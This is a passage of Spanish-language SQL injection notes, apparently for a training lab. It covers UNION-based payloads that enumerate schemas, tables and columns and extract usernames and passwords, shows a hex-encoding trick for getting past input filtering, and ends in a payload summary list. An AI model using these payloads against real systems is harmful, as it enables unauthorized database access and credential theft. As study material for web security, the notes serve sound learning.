 ### Cadena hexadecimal

En ocasiones, por seguridad de la página, puede ser que no podamos introducir ciertas cadenas como `'academy_labs`. Para estos casos podemos introducir la cadena en hexadecimal de la siguiente forma

```bash
 echo -n "academy_labs" | xxd -p
```

Resultado:

```bash
61636164656d795f6c616273
```

La query quedaría así (añadimos `0x` para indicar el valor hexadecimal)

```bash
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=0x61636164656d795f6c616273-- -
```


## Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

## Extraer usuarios de una tabla `users`

```sql
' UNION SELECT username, password FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2-- -
2. ' UNION SELECT 1, @@version-- -
3. ' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
4. ' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
5. ' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
6. ' UNION SELECT username, password FROM users-- -
```


---

## Otras queries útiles para SQLi (bonus)

## 1. Confirmación de la vulnerabilidad
